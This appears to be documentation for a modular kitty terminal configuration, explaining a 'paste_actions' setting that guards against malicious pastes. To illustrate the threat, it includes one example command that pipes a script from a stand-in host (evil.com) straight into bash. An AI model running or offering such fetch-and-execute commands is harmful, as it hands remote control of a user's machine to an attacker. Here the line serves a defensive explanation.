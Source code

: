 **Benefits:**
- ✅ Security isolated and audit-ready (44 lines only)
- ✅ **CRITICAL FIX**: `paste_actions` protection applied
- ✅ Easy theme switching (comment/uncomment one line)
- ✅ Performance profile selection
- ✅ Clear separation of concerns
- ✅ Better Git diffs (changes isolated to specific modules)
- ✅ Easier to share configurations

---

## 🔴 Critical Security Fix Applied

### paste_actions Protection
**File:** `kitty.d/security.conf` (line 19)

```conf
# 🔴 CRITICAL SECURITY FIX (was missing in original config)
# Protects against malicious paste attacks
paste_actions quote-urls-at-prompt,confirm-if-large
```

**Protection Against:**
1. **Malicious URL Auto-execution**
   ```bash
   # Without paste_actions:
   https://evil.com/shell.sh | bash\n  ← Executes immediately!

   # With paste_actions:
   https://evil.com/shell.sh | bash\n  ← Auto-quoted, safe
   ```

2. **Clipboard Bomb DoS**
   ```bash
   # Without paste_actions:
   <8MB of paste content>  ← Terminal hangs

   # With paste_actions:
   <8MB of paste content>  ← Prompts for confirmation
   ```

3. **Hidden Control Characters**
   - Auto-quotes suspicious content
   - Prevents sneaky command injection

**Risk Level:** HIGH → **RESOLVED** ✅

---

## 📋 Module Breakdown

### 1. security.conf (44 lines)
**Purpose:** Hardened security settings only
**Key Features:**
- ✅ `paste_actions quote-urls-at-prompt,confirm-if-large` (CRITICAL FIX)
- ✅ Socket-only remote control
- ✅ Clipboard protection (ask before read)
- ✅ 32KB clipboard size limit
- ✅ Smart trailing space stripping
- ✅ Ask before cloning
